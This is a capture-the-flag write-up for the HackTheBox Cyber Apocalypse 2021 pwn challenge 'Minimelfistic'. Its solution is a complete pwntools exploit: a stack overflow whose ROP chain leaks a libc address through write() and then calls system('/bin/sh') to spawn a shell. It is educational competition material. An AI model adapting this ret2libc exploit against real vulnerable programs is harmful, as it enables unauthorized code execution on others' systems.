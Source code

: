 ```yaml
---
name: Minimelfistic (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Minimelfistic (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Minimelfistic

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/JJD45W-C9mQ/0.jpg)](https://youtu.be/JJD45W-C9mQ?t=2169s "HTB Cyber Apocalypse CTF 2021: Minimelfistic")

## Challenge Description

> The Elves finally understood what went wrong with all their plans. They were too fancy and obvious! But, this one is different.. It's a security system, but the alarm rings whenever Santa's house is vulnerable to an attack. Will you manage to deactivate it? p.s. Sound on!

## Solution

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './minimelfistic'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Lib-C library
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # Local
libc = ELF('libc.so.6')  # Remote

# Pass in pattern_size, get back EIP/RIP offset
offset = 72

ret = 0x400616  # Stack alignment

# Start program
io = start()

# Create a ROP object to handle complexities
rop = ROP(elf)

# Payload to leak libc function
# No puts() so use write()
rop.banner()
rop.write(1, elf.got.write)
rop.main()

# We need the '9' or we won't get out of infinite loop
payload = flat([
    b'9' + (asm('nop') * (71)),
    rop.chain()
])

# Send the payload
io.sendlineafter(b'>', payload)

io.recvlines(41)  # the banner

# Retrieve got.write address
got_write = unpack(io.recvline()[:6].ljust(8, b"\x00"))
info("leaked got_write: %#x", got_write)

# Subtract write offset to get libc base
libc.address = got_write - libc.symbols.write
info("libc_base: %#x", libc.address)

# Reset ROP object with libc binary
rop = ROP(libc)

# Call ROP system, passing location of "/bin/sh" string
rop.system(next(libc.search(b'/bin/sh\x00')))

# We need the '9' or we won't get out of infinite loop
payload = flat([
    b'9' + (asm('nop') * (offset - 1)),
    ret,
    rop.chain()
])

# Send the payload
io.sendlineafter(b'>', payload)

# Got Shell?
io.interactive()
```
